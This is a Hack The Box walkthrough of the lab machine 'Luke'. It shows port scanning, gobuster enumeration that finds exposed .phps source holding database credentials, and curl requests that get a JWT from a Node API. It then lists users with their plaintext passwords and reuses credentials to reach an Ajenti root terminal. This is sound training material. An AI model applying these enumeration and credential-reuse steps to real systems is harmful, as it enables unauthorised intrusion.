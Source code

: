 ```yaml
---
title: Luke - Hack The Box
excerpt: "Luke is a easy machine that doesn't have a lot steps but we still learn a few things about REST APIs like how to authenticate to the service and get a JWT token and which headers are required when using that JWT. The rest of the box was pretty straighforward with some gobuster enumeration, finding PHP sources files with credentials then finally getting a shell through the Ajenti application."
date: 2019-09-14
image: /assets/images/htb-writeup-luke/luke_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - ftp
  - php
  - ajenti
  - json
  - jwt
---
```



Luke is a easy machine that doesn't have a lot steps but we still learn a few things about REST APIs like how to authenticate to the service and get a JWT token and which headers are required when using that JWT. The rest of the box was pretty straighforward with some gobuster enumeration, finding PHP sources files with credentials then finally getting a shell through the Ajenti application.

## Summary

- On the FTP, there's a hint saying we need to get the source file for the web application
- By using the `.phps` file extension we can get the config web application and some credentials
- The credentials are used to authenticate to the API app on port 3000
- With the API we can list the users and their plaintext passwords
- The `/management` URI is protected with basic HTTP auth and we can log in with one of the user found with the API
- We then get the root password from the `config.json` file
- We can then log in as root on the Ajenti admin panel, then spawn a terminal window and retrieve the flags

### Portscan

```
# nmap -p- 10.10.10.137
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-26 16:39 EDT
Nmap scan report for luke.htb (10.10.10.137)
Host is up (0.021s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
8000/tcp open  http-alt
```

### FTP enumeration

Anonymous FTP access is enabled there's a file I can download: `for_Chihiro.txt`

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 0        0             306 Apr 14 12:37 for_Chihiro.txt
226 Directory send OK.

ftp> get for_Chihiro.txt
local: for_Chihiro.txt remote: for_Chihiro.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for for_Chihiro.txt (306 bytes).
226 Transfer complete.
306 bytes received in 0.00 secs (809.8323 kB/s)
```

The file contains contains a hint regarding source files for the website application.

```
As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies !

Derry
```

### Website enumeration

The site running on port 80 is just a generic site with no dynamic content that I can see.

![](/assets/images/htb-writeup-luke/luke1.png)

While running gobuster I find a couple of interesting directories:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -x php -u http://10.10.10.137

/LICENSE (Status: 200)
/config.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/login.php (Status: 200)
/management (Status: 401)
/member (Status: 301)
/vendor (Status: 301)
=====================================================
2019/05/26 16:38:20 Finished
=====================================================
```

`/management` uses HTTP basic authentication and I don't have the password yet. I'll keep that in mind and come back to it later when I find the credentials.

![](/assets/images/htb-writeup-luke/management1.png)

`/login.php` shows a login page for some PHP web application.

![](/assets/images/htb-writeup-luke/login1.png)

I tried a few sets of credentials and I wasn't able to log in. A quick run with SQLmap didn't reveal any easy SQL injection point either.

The hint from the FTP file talked about source files so I did another gobuster pass using `.phps` as the extension since I knew the application was running on PHP based on the `login.php` file found. The `.phps` extension can be used to produce a color formatted output of the PHP source code without actually interpreting it. It's definitely not something you want to leave on your production webservers especially if it contains credentials.

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -x phps -u http://10.10.10.137
/config.phps (Status: 200)
/login.phps (Status: 200)
```

Allright, I found a couple of files and I see that the `config.phps` contains the root credentials for MySQL

```
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```

The `login.phps` file shows that the web application is incomplete: it doesn't really do anything when you log in except set the session cookie. This probably means that I was just meant to find the password from the `config.phps` file and that I can ignore the login page.

![](/assets/images/htb-writeup-luke/login_source.png)

### NodeJS app

The application running on port 3000 expects a JWT token in the Authorization header.

![](/assets/images/htb-writeup-luke/json1.png)

I dirbursted the site to find API endpoints and found the following:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -u http://10.10.10.137:3000

/Login (Status: 200)
/login (Status: 200)
/users (Status: 200)
=====================================================
2019/05/26 16:41:55 Finished
=====================================================
```

I can't reach `/users` because it expects an authorization header:

```
{"success":false,"message":"Auth token is not supplied"}
```

But I can log in and get a token with the following POST request;

```console
curl -XPOST http://10.10.10.137:3000/login -H 'Content-Type: application/json' -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```

I get a JWT token back after logging in:

```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4"}
```

To authenticate, I add the following header to the GET request on `/` and `/users`:

```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4
```

On `GET /`, I now get `{"message":"Welcome admin ! "}`

`GET /users` shows a list of users:

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDE3NjA1LCJleHAiOjE1Njg1MDQwMDV9.MXxjA5devINORQHlkRL17JH96uWO1VJIZMKZSDdf--U' http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

I can query each individual user with `GET /users/<username>` and it returns their password:

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

### Management page

I tried those credentials and found that I can log into the `/management` page with `Derry` (username is case sensitive)

![](/assets/images/htb-writeup-luke/management2.png)

`config.php` and `login.php` contain the source we already have but `config.json` contains another set of credentials:

![](/assets/images/htb-writeup-luke/config.png)

Password: `KpMasng6S5EtTy9Z`

I tried logging in as root by SSH but I wasn't able to.

### Ajenti

I have one port left to check on the system. The Ajenti server admin panel runs on port 8000

![](/assets/images/htb-writeup-luke/ajenti1.png)

I can log in with `root` and `KpMasng6S5EtTy9Z`.

![](/assets/images/htb-writeup-luke/ajenti2.png)

Using the Terminal menu under Tools, I can get a shell and since I'm already running as root I can grab both flags.

![](/assets/images/htb-writeup-luke/flag.png)